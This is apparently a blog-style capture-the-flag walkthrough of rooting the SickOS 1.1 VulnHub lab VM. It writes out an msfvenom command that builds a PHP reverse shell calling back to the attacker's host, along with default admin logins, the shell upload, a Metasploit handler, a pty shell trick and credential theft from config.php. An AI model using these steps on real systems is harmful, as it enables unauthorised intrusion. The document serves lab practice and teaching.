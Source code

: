 ```yaml
---
layout:		post
title:  	"SickOS 1.1"
date: 		2018-03-06 16:00:00 +0800
summary:	Today we are going to get root on SickOS 1.1, a VulnHub VM.
categories:	vulnhub sickos
---
```


Hey everyone, today we have a VulnHub VM, <a href="https://www.vulnhub.com/entry/sickos-11,132/">sickOS</a>, that we are going to get root on. 

The description given is "This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them."

Being similar to an OSCP is nice to know! Let's get started. 

![Login](/assets/sickos/login.PNG){: .center-image }

Here is what you see when you power on the sickOS VM. So as always, let's move over to our Kali machine and nmap the network and find sickOS's IP.

We've got ports  22 and 3128 open and port 8080 closed. Let's launch firefox and see what happens if we go to the IP address.

Connection timed out, that's no good. Let's try to proxy using the squid-http open port and refresh.

![blehhh](/assets/sickos/blehhh.PNG){: .center-image }

Well that's seemed to work. So squid is running on this server. 

Okay, let's use Nikto to find out if we've got any vulnerabilities we can use!

![nikto](/assets/sickos/nikto.PNG){: .center-image }

Okay! There are a few exploits we could use, shellshock looks especially interesting! But first I'm going to look at the robots.txt

![wolfcms](/assets/sickos/wolfcms.PNG){: .center-image }

There's mention of a "wolfcms", let's see if that comes up for us.

![wolfcms landing](/assets/sickos/wolfcms_landing.PNG){: .center-image }

WolfCMS is a Content Management System, neat. With Content Management must come an administrator login right? Let's head over to DuckDuckGo and find out how to log in to WolfCMS.

Appending /?admin/ works, now we could try find a way to crack this login <u><i>OR</i></u> we could try the handy "admin" "password" or "admin" "admin" before we get ahead of ourselves.

![wolfcms admin](/assets/sickos/wolfcmsadmin.PNG){: .center-image }

Yep, admin admin strikes again. Thanks lazy admins! Let's go to the files tab and hope we can upload some files.

![wolfcms files](/assets/sickos/wolfcms_files.PNG){: .center-image }

It seems like it's letting us do it, let's upload a php script to try get a reverse shell going. First, we need to make the php script with MSFvenom

Using:

{% highlight ruby %}
msfvenom -p php/meterpreter/reverse_tcp lhost=**HOST IP ADDRESS** lport=**whichever port you want** -f raw
{% endhighlight %}

we can make a php script to open a reverse tcp to get us in to open a reverse shell.

Now that we've got the php file uploaded, we need to make a session on our Kali box so when we activate it on the web server, it handshakes and we can make our reverse shell. 

We are making a session in Metasploit, using the exploit/multi/handler and using the php/meterpreter/reverse_tcp (as before when making the script) specifying the same host and port we specified in the php script! 

![msf metasploit](/assets/sickos/msf_metasploit.PNG){: .center-image }

Now we go to the web server where our php script is located and run it! 

![metasploit session](/assets/sickos/metasploit_session.PNG){: .center-image }

The session has started!! Let's use a nifty python trick and get into bash on the web server.

{% highlight ruby %}
echo "import pty; pty.spawn('/bin/bash')" > /tmp/aaaa.py
python /tmp/aaaa.py
{% endhighlight %}


![bash shell](/assets/sickos/bash_shell.PNG){: .center-image }

We have bash! much easier to work with. 

![file list](/assets/sickos/filelist.PNG){: .center-image }

Our user is www-data and I've now changed directory and listed the files, config.php looks like the most interesting file at the moment so I'll cat into that and have a read

![sql username pass](/assets/sickos/sqlusernamepass.PNG){: .center-image }

And straight away we have a password, let's try and get into the account!

![loggedin sickos](/assets/sickos/loggedinsickos.PNG){: .center-image }

Okay, now finally let's get root and show the flag!

![root](/assets/sickos/root.PNG){: .center-image }

Thanks everyone, three machines down! I'll try get another post out within a week or so!

